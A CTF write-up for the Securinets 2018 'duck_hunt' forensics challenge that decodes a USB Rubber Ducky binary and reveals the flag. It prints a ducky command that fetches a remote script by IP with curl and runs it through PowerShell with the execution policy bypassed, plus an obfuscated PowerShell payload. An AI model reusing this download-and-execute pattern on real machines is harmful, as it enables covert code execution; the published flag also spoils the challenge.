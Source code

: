 ```yaml
---
layout: post
title: "[2018_Securinets_CTF] duck_hunt(300)"
description:
headline:
modified: 2018-03-26
category: [CTF, 2018_Securinets]
tags: [Forensic, ducky]
imagefeature:
mathjax:
chart:
comments: true
featured: true
---
```



## Exercise

> Do you know someone who loves hunting ducks?
> Link: http://for.ctfsecurinets.com/8/unknown.bin

![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/exercise.png)
<p align='center'>[그림] exercise</p>


## Solution

You can download a binary called "unknown.bin". After download the "unknown.bin", that is look like dummy binary.


you need to know "duck" in exercise. that is "ducky". ducky, which uses the mcu chip for usb and performs common operations, uses the result of the compilation "inject.bin".(more important : "https://hakshop.com/products/usb-rubber-ducky-deluxe")


below site, you can decode that binary. "https://ducktoolkit.com/decoder/"
![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/decode.png)
<p align='center'>[그림] decode site</p>



After Binary file decode, you can see that original "ducky code".
![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/decode_file.png)
<p align='center'>[그림] original ducky code</p>


This is ducky code. you can see "http://34.240.44.38/payload.txt" about "GET url".
```bash
DELAY
ADELAY
DELAY
DELAY
cd / & mkdir .haxor & cd .haxor & echo (curl -X GET  http://34.240.44.38/payload.txt) > file.PS1 & powershell -ExecutionPolicy ByPass -File file.ps1
DELAY

```

You can tell from the payload.txt that it is a powershell script, and seems to have a simple obfuscation. Nothing is a problem. This is "payload.txt" (powershell script)
```powershell
${;}=+$();
${=}=${;};
${+}=++${;};
${@}=++${;};
${.}=++${;};
${[}=++${;};
\n${]}=++${;};
${(}=++${;};
${)}=++${;};
${&}=++${;};
${|}=++${;};
${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]
"${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${)}${=}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${+}${@}${.}+${"}${+}${=}${]}+${"}${+}${+}${]}+${"}${|}${]}+${"}${|}${)}+${"}${|}${]}+${"}${+}${+}${[}+${"}${+}${+}${)}+${"}${|}${&}+${"}${|}${&}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${|}${]}+${"}${+}${=}${=}+${"}${+}${+}${)}+${"}${|}${|}+${"}${+}${=}${)}+${"}${+}${@}${+}+${"}${|}${]}+${"}${+}${+}${)}+${"}${+}${+}${]}+${"}${+}${=}${+}+${"}${+}${=}${=}+${"}${|}${]}+${"}${+}${+}${]}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${=}${+}+${"}${+}${+}${|}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${+}${=}${+}+${"}${.}${.}+${"}${+}${@}${]}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}"
```


Unpacking is simple. Just run it in powershell as it's written in payload.
![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/run.png)
<p align='center'>[그림] powershell run</p>

If "[CHar]" type values are output, the user can get the input value and check the comparison code. Within that code we can get the flag.

![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/type.png)
<p align='center'>[그림] result of run</p>

```bash
$flag = Read-Host-Prompt 'Enter the password'
If (flag -eq 'Flag{is_a_rubber_ducky_used_somewhere!}'
```
![](/images/2018-03-26-Securinets-CTF-duck-hunt-300/flag.png)
<p align='center'>[그림] flag</p>


<p align='right'><strong>Flag{is_a_rubber_ducky_used_somewhere!}</strong></p>

